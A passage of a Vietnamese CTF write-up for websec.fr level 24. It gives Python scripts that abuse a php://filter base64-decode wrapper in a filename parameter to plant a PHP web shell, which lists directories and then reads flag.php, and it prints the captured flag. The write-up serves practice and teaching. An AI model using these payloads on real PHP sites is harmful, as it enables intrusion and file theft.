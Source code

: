 ```Python
    result = requests.post(url,headers=headers,data=data).text

    print(result)

payload = "php://filter/convert.base64-decode/resource=shell.php"

payload2 = base64.b64encode(b"<?php $a = scandir('../../');print_r($a); ?>");

exploit(payload,payload2)
```
Bài này mình có thử dùng `system,exec` nhưng có vẻ như đều bị chặn,nên mình có tìm hiểu thì có thế dùng hàm `scandir` để return list file trong folder.

Và để hiện thị thông tin lên trình duyệt mình cần phải sử dụng hàm `var_dump hoặc print_r`.

![image](https://scontent.xx.fbcdn.net/v/t1.15752-9/332070183_1557252364758367_3072424166117698545_n.png?_nc_cat=111&ccb=1-7&_nc_sid=aee45a&_nc_ohc=6V2Q62a08tIAX_rCDFh&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AdTW6AxJBJs1rx3GV6j8KgsscctTEZZLs4S_ZAbGHceHQQ&oe=6426D78A)

Mình tìm thấy được file `flag.php`,cần chỉnh lại script để đọc file:

#### Python
```Python
import requests
import base64

header = {"Cookie":"PHPSESSID=2epup0ad23d2o6ufsks4bg24gtkm5103"}
def exploit(payload,payload2):

    url = "http://websec.fr/level24/index.php?p=edit&filename="+payload

    headers=header

    data = {"data":payload2}

    result = requests.post(url,headers=headers,data=data).text

    print(result)

payload = "php://filter/convert.base64-decode/resource=shell.php"

payload2 = base64.b64encode(b"<?php echo file_get_contents('../../flag.php'); ?>");

exploit(payload,payload2)
```
Sau khi up lên và mở thì mình nhận được 1 trang trắng,sau đó mình `ctrl-U` thì sẽ thấy nội dung ma nó `comment`:
```Php
// WEBSEC{no_javascript_no_php_I_guess_you_used_COBOL_to_get_a_RCE_right?}
```
